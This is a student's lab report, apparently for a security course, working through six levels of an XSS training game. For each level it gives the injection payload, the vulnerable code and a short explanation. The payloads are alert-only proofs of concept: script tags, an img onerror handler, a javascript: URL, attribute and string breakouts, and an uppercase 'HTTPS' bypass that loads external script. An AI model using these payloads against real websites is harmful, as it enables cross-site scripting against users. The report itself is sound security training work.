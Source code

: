 # Lab 6 - Playing with XSS

### Team Members:
1. Adam Robertson, 938152440, abr5598@psu.edu

## Drills
There are five tasks for you to complete. Please give a brief summary of what you did – feel free to include any thoughts / concerns / problems / etc. you encountered during the tasks. Also, include your answers to the questions asked in each task. Save your report as a PDF and submit it to Canvas before the deadline.



## Tasks 

### Challenge 1:

#### Attacking payload

```
<script>alert("Hacker man")</script>
```

#### Explanation

The page directly renders what ever is included in the search.

In the server code,
``` python
message = "Sorry, no results were found for <b>" + query + "</b>."
      message += " <a href='?'>Try again</a>."
 
      # Display the results page
self.render_string(page_header + message + page_footer)
```
where query is whatever was searched.

#### Screenshots

![](level1.png)

---

### Challenge 2:

#### Attacking payload

``` html
<img src="nothing" onerror="alert('Hacker man")">

```

#### Explanation

In this level, the user input is rendered within innerHtml. With innerHtml, any script tag is not executed. However, we can use img tags with the onerror property. This property specifies a function that will run when there is an error loading the image. We simply try to render an image that doesn't exist, and the img will call our function.

This only issue with this is I don't see how we can define our own function? Since script tags do not run, how can we run a function that we define?

#### Screenshots

![](level2.png)

---

### Challenge 3:

#### Attacking payload

```html
' /> <script> alert("Hacker man"); </script>

```

#### Explanation

The code block
```html
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```

Takes in the string (num) that is after the '#' in the url and renders without any checks. Writing our scipt in the url after the '#' will inject it directly into the page.

#### Screenshots

![](level3.png)

---

### Challenge 4:

#### Attacking payload

``` html
' + alert("Hacker man") + '
```

#### Explanation

In the code,
``` html
<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
```

Our time entered is substituted in {{timer}} before the function is ran. I believe all code in the "" is ran as a script. So with our injection, the code that runs as onload is
``` html
"startTimer('' + alert("Hacker man) +'')"
```
So the alert is called since everything in the "" is ran.

If we were to try and utilize the following html,
``` html
<div id="message">Your timer will execute in {{ timer }} seconds.</div>
```

by injecting a script tag, it would not work since the variable in the {{}} is only substituted in one pass? And isn't ran. I believe this is an EC6 thing.

#### Screenshots

![](level4.png)

---

### Challenge 5:

#### Attacking payload

``` html
javascript:alert("Hacker man")

```

#### Explanation

Javascript can be run in a url by using "javascript:".
We can utlize the code,
``` html
<a href="{{ next }}">Next >></a>
```
where next is define in the url.

by entering our injection as the next variable, whenever next is clicked, our javascript will run.

#### Screenshots

![](level5.png)

---

### Challenge 6:

#### Attacking payload

```
HTTPS://www.gstatic.com/charts/loader.js?callback=alert
```

#### Explanation

In this level, we can load javascript from the server. However, we can tell it to retrieve a javascript from a different location if we preface our javascript location with 'http'. Sadly, there is a check to keep us from loading javascript that is located elsewhere. But there was a mistake in this check as it only checks 'http', not 'Http', 'HTTP', or any other uppercase combination. As a result, we can host our own javascript with "alert('Hacker man')" and tell the server to load it.

I used a script that google hosts that will call a funtion. Sadly, I couldn't enter parameters, but if I hosted my own javascript file I would specify "Hacker man".

#### Screenshots


![](level6.png)
